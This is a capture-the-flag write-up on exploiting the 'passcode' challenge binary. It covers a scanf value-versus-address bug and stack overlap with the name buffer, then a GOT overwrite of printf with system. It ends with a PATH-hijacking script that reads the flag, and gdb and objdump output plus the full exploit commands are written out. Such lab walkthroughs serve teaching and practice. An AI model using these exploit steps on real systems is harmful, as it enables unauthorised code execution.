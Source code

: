 # Passcode

In the `welcome` function there's a `scanf` for a name, which is padded to 100 bytes:

```c
void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}
```

The program then asks for two passwords at `login`:

```c
int passcode1;
int passcode2;

printf("enter passcode1 : ");
scanf("%d", passcode1);
fflush(stdin);

// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
printf("enter passcode2 : ");
scanf("%d", passcode2);
```

There's a mistake there: scanf expects the address to which it should write the input, not the value. Thus it's going to write to whatever address is in the values of `passcode1` and `passcode2`.

They are then checked. If `passcode1 == 338150` and `passcode2 == 13371337`, we gain the shell.

This seems a bit too much in the beginning.

Let's check where in the stack are `name`, `passcode1` and `passcode2` being written. Perhaps we can fill in the passwords' initial values writing to the `name` buffer.

```bash
$ gdb passcode
>>> disas welcome
[...]
0x0804862f <+38>:	lea    edx,[ebp-0x70]
0x08048632 <+41>:	mov    DWORD PTR [esp+0x4],edx
0x08048636 <+45>:	mov    DWORD PTR [esp],eax
0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
[...]
>>> disas login
[...]
0x0804857c login+24 mov    edx,DWORD PTR [ebp-0x10]
0x0804857f login+27 mov    DWORD PTR [esp+0x4],edx
0x08048583 login+31 mov    DWORD PTR [esp],eax
0x08048586 login+34 call   0x80484a0 <__isoc99_scanf@plt>
[...]
0x080485aa login+70 mov    edx,DWORD PTR [ebp-0xc]
0x080485ad login+73 mov    DWORD PTR [esp+0x4],edx
0x080485b1 login+77 mov    DWORD PTR [esp],eax
0x080485b4 login+80 call   0x80484a0 <__isoc99_scanf@plt>
>>> b *0x08048639
>>> b *0x08048586
>>> b *0x080485b4
>>> r
Breakpoint 1, 0x08048639 in welcome ()
>>> p $ebp-0x70
$1 = (void *) 0xffffcc58 # name
>>> c
enter your name : AAAA
Welcome AAAA!
Breakpoint 2, 0x08048586 in login ()
>>> p $ebp-0x10
$2 = (void *) 0xffffccb8 # passcode1
>>> c
enter passcode1 : A
Breakpoint 3, 0x080485b4 in login ()
>>> p $ebp-0xc
$3 = (void *) 0xffffccbc # passcode2
```

Once we hit the first breakpoint, just print the address of `$ebp-0x70` (`name`). The same for `passcode1` and `passcode2`, with their respective offsets from `$ebp`.

If we subtract `name` from `passcode1` (0xffffccb8 - 0xffffcc58), we get 0x60 (96), thus the last 4 bytes of `name` are written to the initial value of passcode1.

This means we have an *arbitrary write*, because the scanf later on writes to the address in `passcode1`, which we can control. But what now? We need to write *two* passwords, not one.

If we write the address of `passcode2` into `passcode1`, we only control `passcode2`. What about `passcode1`?

But if we have an aribtrary write, we can also write to the `Global Offset Table`, redirecting the execution of any libc function in the program. Perhaps we can overwrite the `printf` entry, making it point to `system` instead. Where is it located?

```bash
$ objdump -s passcode
[...]
Contents of section .got.plt:
 8049ff4 289f0408 00000000 00000000 26840408  (...........&...
 804a004 36840408 46840408 56840408 66840408  6...F...V...f...
 804a014 76840408 86840408 96840408 a6840408  v...............
$ gdb passcode
>>> x 0x804a000
0x804a000 <printf@got.plt>: 0x08048426
>>> x 0x804a010
0x804a010 <system@got.plt>: 0x08048466
```

This means we have to write `0x08048466` into `0x804a000`.

The `passcode1` scanf expects a decimal number, so we provide `134513766` (0x08048466).

```bash
$ (python -c "print('a'*96+'\x00\xa0\x04\x08')"; sleep 1; printf "134513766") | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
sh: enter: command not found
enter passcode1 : checking...
Login Failed!
```

This is exactly what we wanted: `prinf` became `system`, although it returned an error because there's no `enter` comand, from the string `enter passcode2 : `.

Now we can write the enter command ourselves, reading the flag:

```bash
$ mkdir /tmp/pc
$ echo "/bin/cat flag" > /tmp/pc/enter
$ chmod +x /tmp/pc/enter
$ export PATH=/tmp/pc:$PATH
$ (python -c "print('a'*96+'\x00\xa0\x04\x08')"; sleep 1; printf "134513766") | ./passcode
```
